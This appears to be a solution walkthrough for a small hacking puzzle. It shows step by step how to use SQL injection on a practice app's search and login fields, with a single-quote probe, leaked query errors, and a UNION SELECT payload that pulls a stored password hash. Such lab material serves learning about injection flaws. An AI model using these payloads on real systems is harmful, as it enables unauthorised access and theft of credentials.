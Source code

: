 # Step 0

Add some user with a password to the database. Here we call them "Karl".

# Step 1

We check if quotation marks are escaped when adding user input to the query.

## Input
``` sql
'
```

[Click "Search for users"]

## Result

Error: unrecognized token: "'" in SELECT user FROM credentials WHERE user LIKE '%'%' at offset 49

## Interpretation

This input field is susceptible to SQL injection! And moreover, it kindly tells us the query used:

``` sql
SELECT user FROM credentials WHERE user LIKE '%{}%'
```

(The `{}` denotes the user input.)

# Step 2

Let's find out more about the database by also breaking the login request.

## Input
``` sql
'
```

[Click "Login"]

## Result

Error: unrecognized token: "'''" in SELECT password_hash FROM credentials WHERE user = ''' at offset 51

## Interpretation

The `credentials` table has a column called `password_hash`.

# Step 3

We know the names and types of the table and columns, it is time to extract the information we are looking for. Use the `UNION` command to append another query:

## Input
``` sql
' UNION SELECT password_hash FROM credentials '
```

[Click "Search for users"]

## Query after Injection
``` sql
SELECT user FROM credentials WHERE user LIKE '%' UNION SELECT password_hash FROM credentials '%'
```

## Result

The following users match your query: ["03ac674216f3e15c761ee1a5e255f067953623c8b388b4459e13f978d7c846f4", "Karl"]

## Interpretation

This is the hashed password of Karl. From the length we can deduce that it is most probably a SHA-256 Hash. A small [Python script](https://github.com/TheComamba/TinyHackingPuzzle/blob/main/puzzle_soulution/02_crack_numeric_password.py) will be enouth to break it.
